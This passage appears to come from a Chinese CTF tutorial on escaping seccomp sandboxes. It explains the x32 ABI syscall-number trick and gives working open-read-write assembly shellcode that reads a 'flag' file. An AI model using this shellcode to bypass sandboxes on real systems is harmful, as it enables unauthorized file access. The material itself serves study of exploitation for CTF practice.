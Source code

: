 <img src="http://www.leidongzheng.com/wp-content/uploads/2024/11/图片-5-1024x241.png" alt="img" style="zoom: 67%;" />

***sendfile：\***将文件描述符in的内容复制到文件描述符out中，

ssize_t sendfile(int out_fd, int in_fd, off_t *offset, size_t count);

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/11/图片-6-1024x140.png" alt="img" style="zoom: 67%;" />

显然上面的shellcode可以直接输出文件内容



## *二\利用x32ABI和32位模式的沙箱绕过*

### ***x32 ABI\***

x32 ABI是ABI (Application Binary Interface)，同样也是linux系统内核接口之一。x32  ABI允许在64位架构下（包括指令集、寄存器等）使用32位指针，从而避免64位指针造成的额外开销，提升程序性能。然而，除跑分、嵌入式场景外，x32 ABI的使用寥寥无几。前几年曾有过弃用x32 ABI的讨论，但其被最终决定保留，并在linux kernel中保留至今。

#### ***利用方式\***

x32 ABI与64位下的系统调用方法几乎无异，只不过系统调用号都是不小于0x40000000，并且要求使用32位指针。

具体的调用表可以查看系统头文件中的`/usr/src/linux-headers-$version-generic/arch/x86/include/generated/uapi/asm/unistd_x32.h`

因为没有限制sys_number<0x40000000，所以可以直接调用x32 abi，

orw shellcode如下：

```
lea rax,[rip]
add rax,0x200
mov rsp,rax ;  因为rsp被清空，先将栈迁移至可读写位置

mov eax,0x67616c66 ;  'flag'
push rax
mov rdi,rsp
xor rsi,rsi
mov rax,0x40000002 ;  open
syscall

mov rdi,rax
mov rax,rsp
add rax,0x100
mov rsi,rax
mov rdx,0x40
mov rax,0x40000000 ;  read
syscall

mov edi,2
mov rax,0x40000001 ;  write
syscall
```
